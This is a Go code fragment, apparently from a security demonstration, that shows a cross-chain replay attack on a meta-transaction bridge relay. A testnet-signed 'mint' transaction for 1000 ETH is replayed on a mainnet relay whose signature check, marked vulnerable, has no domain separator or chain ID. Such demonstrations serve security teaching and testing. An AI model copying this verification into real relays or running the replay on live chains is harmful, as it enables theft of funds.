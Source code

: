 ```go
    // Sign for testnet (where tokens have no value)
    bridgeTx := MetaTransaction{
        From:  userAddress,
        To:    common.HexToAddress("0x5555555555555555555555555555555555555555"),
        Value: big.NewInt(1000000000000000000000), // 1000 ETH
        Data:  []byte("mint(address,uint256)"),
        Nonce: big.NewInt(1),
    }
    
    testnetSignature := signTransactionVulnerable(bridgeTx, privateKey)
    
    // Verify on testnet (should succeed)
    validTestnet, _ := testnetRelay.VerifySignature(bridgeTx, testnetSignature)
    fmt.Printf("Testnet signature valid: %t\n", validTestnet)
    
    // ATTACK: Replay testnet signature on mainnet
    validMainnet, _ := mainnetRelay.VerifySignature(bridgeTx, testnetSignature)
    fmt.Printf("Mainnet signature valid: %t\n", validMainnet)
    
    if validTestnet && validMainnet {
        fmt.Println("\n🚨 CROSS-CHAIN REPLAY VULNERABILITY CONFIRMED!")
        fmt.Println("Testnet signature accepted on mainnet!")
        fmt.Println("Attacker could mint valuable tokens using worthless testnet signatures.")
    }
}

type VulnerableRelay struct {
    name     string
    version  string
    chainID  uint64
    contract common.Address
}

// VULNERABLE: No domain separator validation
func (vr *VulnerableRelay) VerifySignature(
    tx MetaTransaction,
    signature []byte,
) (bool, error) {
    // Encode transaction data
    message := crypto.Keccak256(
        common.LeftPadBytes(tx.From.Bytes(), 32),
        common.LeftPadBytes(tx.To.Bytes(), 32),
        common.LeftPadBytes(tx.Value.Bytes(), 32),
        tx.Data,
        common.LeftPadBytes(tx.Nonce.Bytes(), 32),
    )
    
    // VULNERABILITY: Uses generic Ethereum signed message without domain context
    messageHash := crypto.Keccak256(
        []byte("\x19Ethereum Signed Message:\n32"),
        message,
    )
    
    // Recover signer
    recoveredPubKey, err := crypto.SigToPub(messageHash, signature)
    if err != nil {
        return false, err
    }
    
    recoveredAddress := crypto.PubkeyToAddress(*recoveredPubKey)
    return recoveredAddress == tx.From, nil
}

```